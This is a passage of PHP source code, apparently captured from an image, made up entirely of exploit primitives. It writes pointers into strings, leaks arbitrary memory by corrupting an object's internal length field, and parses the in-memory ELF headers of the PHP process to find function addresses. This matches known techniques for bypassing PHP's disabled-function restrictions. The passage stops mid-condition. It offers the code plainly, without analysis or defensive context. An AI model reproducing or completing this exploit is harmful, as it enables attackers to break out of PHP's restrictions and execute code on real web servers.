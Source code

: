 ```php

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $text_size) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
```